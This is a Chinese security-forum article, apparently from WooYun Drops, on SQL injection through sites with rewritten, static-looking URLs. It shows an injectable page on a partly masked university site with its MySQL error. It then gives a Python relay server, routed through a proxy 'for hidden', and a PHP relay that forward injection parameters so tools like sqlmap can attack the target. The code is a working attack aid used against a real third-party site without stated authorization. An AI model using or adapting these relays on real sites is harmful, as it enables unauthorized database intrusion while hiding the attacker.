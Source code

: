 # python 脚本处理伪静态注入

2013/05/27 17:50 | [livers](http://drops.wooyun.org/author/livers "由 livers 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

目前有很多网站做了 rewrite.

```
/?id=1

/1

/1111.php 
```

通常情况下，动态脚本的网站的 url 类似下面这样

http://www.xxoo.net/aa.php?id=123

做了伪静态之后类似这样

http://www.xxoo.net/aa.php/id/123.html

总归大趋势下，攻击的门槛逐渐增高。这样有利有弊，喜欢研究的会深入钻研，另一方面只会用工具不懂原理的则充斥到大小论坛水区。

实战举例：

[`www.bxxxxxxxxxxxx.edu/magazine/index.php/mxxxxia/gallery/dickinsons-last-dance/1`](http://www.bxxxxxxxxxxxx.edu/magazine/index.php/mxxxxia/gallery/dickinsons-last-dance/1)

这个点存在注入

```
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1dddddd, 1' at line 4 
```

标准的显错注入。

这里测试了几个工具 havij

[`www.bxxxxxxxxxxxx.edu/magazine/index.php/mxxxxia/gallery/dickinsons-last-dance/1`](http://www.bxxxxxxxxxxxx.edu/magazine/index.php/mxxxxia/gallery/dickinsons-last-dance/1)

sqlmap

safe3

穿山甲

此上都无法直接注入。

这里借助注入中转实现：

中转工具有一些   win7 下会遭遇各种奇葩问题。并 linux 下不能使用。

用 python  code 了一篇，为什么用 python 因为他开发快，不用各种环境。

```
from BaseHTTPServer import *  
import urllib2  
class MyHTTPHandler(BaseHTTPRequestHandler):  
def do_GET(self):  
path=self.path  
path=path[path.find('id=')+3:]  
proxy_support = urllib2.ProxyHandler({"http":"http://127.0.0.1:8087"})  
opener = urllib2.build\_opener(proxy\_support)  
urllib2.install_opener(opener)  
url="http://www.xxxxxxxxxxxxx.edu/magazine/imedia/gallery/dickinsons-last-dance/"  
try:  
response=urllib2.urlopen(url+path)  
html=response.read()  
except urllib2.URLError,e:  
html=e.read()  
self.wfile.write(html)  
server = HTTPServer(("", 8000), MyHTTPHandler)  
server.serve_forever() 
```

不到 20 行代码（并加入了 goagent 代理 for hidden ）。 已经实现了要求。

[`127.0.0.1:8000/?id=1`](http://127.0.0.1:8000/?id=1)

从而达到目的。相比构造自己脚本去执行 sql 注入语句，要高效的多。

* * *

给习惯用 php 的朋友添加一个 php 脚本的中转注入：

可以自定义需要的头信息，在需要 cookie 或者 refer 等位置都可以方便的添加，添加好后直接访问 zhongzhuan.php?id=1 然后就可以放到工具中注入了，十分方便 :)

```
<?php
set_time_limit(0); 
$id=$_GET["id"]; 
$id=str_replace(" ","%20",$id); 
$id=str_replace("=","%3D",$id); 
$cookie="test";
$url = "http://www.qq.com/index.php/id/{$id}.html"; 
//$postdata = "";

$ch = curl_init(); 
curl_setopt($ch, CURLOPT_URL, "$url"); 
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false); 
curl_setopt($ch, CURLOPT_COOKIE, "$cookie");
// curl_setopt($ch, CURLOPT_POST, 1);//post 提交方式
// curl_setopt($ch, CURLOPT_POSTFIELDS, $postdata);//post 的数据
$output = curl_exec($ch); 
curl_close($ch); 
print_r($output);
?> 
```

**Tags:** [python](http://drops.wooyun.org/tag/python), [伪静态注入](http://drops.wooyun.org/tag/%e4%bc%aa%e9%9d%99%e6%80%81%e6%b3%a8%e5%85%a5)

版权声明：未经授权禁止转载 [livers](http://drops.wooyun.org/author/livers "由 livers 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Python Pickle 反序列化带来的安全问题](http://drops.wooyun.org/papers/66)
*   [InsightScan:Python 多线程 Ping/端口扫描 + HTTP 服务/APP 探测，可生成 Hydra 用的 IP 列表](http://drops.wooyun.org/tools/427)
*   [用 Burpsuite 来处理 csrf token](http://drops.wooyun.org/tips/2460)
*   [uctf-杂项题目分析](http://drops.wooyun.org/tips/3349)
*   [攻击 JavaWeb 应用[3]-SQL 注入[1]](http://drops.wooyun.org/tips/236)
*   [2014 年澳大利亚信息安全挑战 CySCA CTF 官方 write up Web 篇](http://drops.wooyun.org/tips/2444)